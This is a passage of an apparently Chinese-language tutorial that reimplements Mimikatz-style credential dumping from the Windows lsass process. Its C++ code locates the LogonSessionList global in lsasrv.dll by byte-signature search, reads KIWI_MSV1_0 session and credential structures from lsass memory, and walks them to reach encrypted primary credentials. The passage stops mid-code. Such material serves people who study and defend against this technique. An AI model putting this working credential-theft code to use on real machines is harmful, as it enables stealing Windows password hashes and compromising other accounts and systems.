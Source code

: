 取该 lea 指令和前几条指令的字节序列用于搜索 lea 指令相对`lsasrv.dll`模块基址的偏移：

```cpp
PUCHAR lsasrvBaseAddress = (PUCHAR)LoadLibraryA("lsasrv.dll");

UCHAR keySig[] = {	0x48, 0xFF, 0x15, 0x27, 0x3C, 0x08, 0x00,
					0x0F, 0x1F, 0x44, 0x00, 0x00,
					0x48, 0xC1, 0xE3, 0x04,
					0x4D, 0x8D, 0xB7 };

keySigOffset = SearchPattern(lsasrvBaseAddress, keySig, sizeof keySig);
if (keySigOffset == 0) return;
wprintf(L"keySigOffset = 0x%x\n", keySigOffset);

// 读取LogonSessionList的偏移量
ReadFromLsass(lsasrvBaseAddress + keySigOffset + sizeof(keySig), &LogonSessionListOffset, sizeof(LogonSessionListOffset));
wprintf(L"LogonSessionListOffset = 0x%x\n", LogonSessionListOffset);
```

这里得到了指令`lea r14, rva ? LogonSessionList@@3PAU_LIST_ENTRY@@A[r15];`中的小端的32位整数偏移量 相对`lsasrv.dll`模块基址的偏移值`keySigOffset + sizeof keySig`，然后读取出该偏移处的4字节数据，得到`LogonSessionListOffset`。

需要注意的是，与前面`LocateUnprotectLsassMemoryKeys`和`GetCredentialsFromWdigest`函数中定位变量的方式不同的是，这里 rva 表示“相对虚拟地址”（Relative Virtual Address），即`LogonSessionListOffset`是相对于模块基址的偏移，而不是相对于下一条指令的偏移。

因此，全局变量LogonSessionList的地址的计算方式为`lsasrvBaseAddress + LogonSessionListOffset`：

```cpp
// 计算全局变量LogonSessionList的地址
logSessListAddr = (PKIWI_MSV1_0_LIST_63)(lsasrvBaseAddress + LogonSessionListOffset);
wprintf(L"logSessListAddr = 0x%p\n", logSessListAddr);

PKIWI_MSV1_0_LIST_63 pList = logSessListAddr;
```

读取`LogonSessionList`指向的结构体内容，得到一个指向`KIWI_MSV1_0_LIST_63`结构体的指针，然后遍历该链表，读取每个节点的内容。

```cpp
do {
	KIWI_MSV1_0_LIST_63 listEntry;
	KIWI_MSV1_0_CREDENTIALS credentials;

	memset(&listEntry, 0, sizeof(listEntry));
	// 从lsass进程的内存位置pList读取出KIWI_MSV1_0_LIST_63结构体
	ReadFromLsass(pList, &listEntry, sizeof(KIWI_MSV1_0_LIST_63));

	// 读取凭据链表头
	PKIWI_MSV1_0_CREDENTIALS credPtr = listEntry.Credentials;

	while (credPtr) {
		KIWI_MSV1_0_CREDENTIALS credentials;
		memset(&credentials, 0, sizeof(credentials));
		ReadFromLsass(credPtr, &credentials, sizeof(KIWI_MSV1_0_CREDENTIALS));

		if (credentials.PrimaryCredentials) {
			PKIWI_MSV1_0_PRIMARY_CREDENTIALS primaryCredPtr = (PKIWI_MSV1_0_PRIMARY_CREDENTIALS)credentials.PrimaryCredentials;
			KIWI_MSV1_0_PRIMARY_CREDENTIALS primaryCred;
			ReadFromLsass(primaryCredPtr, &primaryCred, sizeof(KIWI_MSV1_0_PRIMARY_CREDENTIALS));

			// 读取加密的凭据缓冲区
			LSA_UNICODE_STRING* credStr = &primaryCred.Credentials;

			if (credStr->Length && credStr->Buffer) {
				// 定义 MSV1_0_PRIMARY_CREDENTIAL_10_1607 结构体
				typedef struct _MSV1_0_PRIMARY_CREDENTIAL_10_1607{
				} MSV1_0_PRIMARY_CREDENTIAL_10_1607, * PMSV1_0_PRIMARY_CREDENTIAL_10_1607;
```